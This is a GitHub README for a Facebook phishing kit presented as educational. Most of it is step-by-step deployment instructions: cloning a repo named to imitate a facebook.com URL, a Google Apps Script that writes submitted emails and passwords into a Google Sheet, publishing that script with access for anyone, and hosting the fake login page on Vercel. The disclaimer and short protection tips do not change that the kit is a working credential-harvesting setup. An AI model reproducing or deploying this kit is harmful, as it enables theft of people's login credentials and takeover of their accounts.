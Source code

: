 # Facebook Phishing (Educational Purpose Only)

This repository demonstrates how attackers can potentially hijack user credentials through phishing techniques. The purpose of this project is to **educate users** about the risks of phishing attacks and to help developers and security professionals understand how to protect against such threats.

---

## ⚠️ Disclaimer

This project is strictly for **educational purposes** and **ethical testing** only. It is intended to raise awareness about phishing attacks and to help individuals and organizations improve their security practices. 

**Do not use this project for malicious purposes.** Unauthorized use of this code to collect user credentials or perform phishing attacks is illegal and unethical. The repository owner is not responsible for any misuse of this code.

---

## Features

- Demonstrates how attackers can create a fake login page to collect user credentials.
- Uses a Google Apps Script to simulate data collection (e.g., storing credentials in a Google Sheet).
- Includes a serverless backend (Vercel) to handle form submissions securely.

---

## How to Use

### 1. Clone the Repository
```bash
git clone https://github.com/IsaacTalb/www.facebook.com-share-memes-1829839408490847.git
cd www.facebook.com-share-memes-1829839408490847
```
### 2. Install Dependencies
Install the required dependencies using npm:
```bash
npm install
```
### 3. Obtain Google Sheet ID and run AppScript
In order to run Appscript, add name Email and Password Column in Google Sheet. And

1.  Go to the Extensions Tab on (beside of Data & Tools) and click AppScript.
2.  In Code.gs; you copy pasted below code and replace with your Google Sheet ID.
3.  Your Google Sheet ID is in the URL of google sheet between /d/ and /edit? (example: https://docs.google.com/spreadsheets/d/YOUR_GOOGLE_SHEETS_ID/edit?gid=0#gid=0)
4.  Copy that sheet ID only and paste it to the code below.
5.  Now Click Deploy, New Deploy and Click Select Type Settings and choose Web App.
6.  And now write Description(as you want), excute as your mail address, and choose "Anyone" for "Who has access"
7.  After that you can start deploy and Copy the web app URL. and follow Step.4 .env Variables.
```bash
    function doPost(e) {
    try {
        Logger.log("Received data: " + JSON.stringify(e));

        if (!e || !e.parameter.email || !e.parameter.password) {
        Logger.log("Error: Missing required fields");
        return ContentService.createTextOutput(JSON.stringify({ error: "Missing required fields" }))
            .setMimeType(ContentService.MimeType.JSON);
        }

        var sheet = SpreadsheetApp.openById("YOUR_GOOGLE_SHEET_ID").getActiveSheet();
        sheet.appendRow([e.parameter.email, e.parameter.password, new Date()]);

        Logger.log("Data added to sheet");
        return ContentService.createTextOutput(JSON.stringify({ status: "Success" }))
        .setMimeType(ContentService.MimeType.JSON);
    } catch (error) {
        Logger.log("Error: " + error.message);
        return ContentService.createTextOutput(JSON.stringify({ error: error.message }))
        .setMimeType(ContentService.MimeType.JSON);
    }
    }
```

### 4. Set up Environment Variables
Create a .env file in the root directory and add the following:
```bash
SCRIPT_GOOGLE_URL="https://script.google.com/macros/s/YOUR_GOOGLE_SCRIPT_ID/exec"
```
Replace YOUR_GOOGLE_SCRIPT_ID with the deployment URL of your Google Apps Script.

### 5. Deploy to Vercel

1. Push the repository to Github.
2. Connect the repository to Vercel.
3. Add the SCRIPT_GOOGLE_URL environment variable in the Vercel dashboard.
4. Deploy the project.

So now you all done.

## Educational Goals
This project is designed to:
    1. Teach developers how phishing attacks work.
    2. Help security professional identify and mitigate phishing attempts.
    3. Educate users about the importance of verifying URLs and avoiding fake login pages.
    4. And **importanly** even in real website such as Tech, EDU, ORG website, the attackers can gain access from backdoors and set up those hijacking tools.

## How to Protect Yourself

1.  Verify URLs: Always check the URL of a login page to ensure it is legitimate.
2.  Enbale Two-Factor Authentication(2FA): Use 2FA to add an extra layer of security to your accounts.
3.  Educate Users: Share knowledge about phishing attacks with others to help them stay safe online.
4.  Use Security Tools: Implement tools like email filters and browser extensions to detect phishing attempts.
5.  Share this project: Share this project with friends and family to educate them about phishing attacks.

<hr>

## License 

This project is licensed under the MIT License. See the LICENSE file for details.

<hr>

## Contributing 

Contributions are welcome! If you have suggestions for improving this project or adding more educational content, feel free to open issue or submit a pull request.

<hr>

## Acknowledgments

This project is inspired by the need to educate users and developers about the dangers of phishing attacks. Special thanks to <a href="https://isaac.duckcloud.info"> Isaac Talb </a> and Open-Source Community for providing tools and resources to make this project possible.


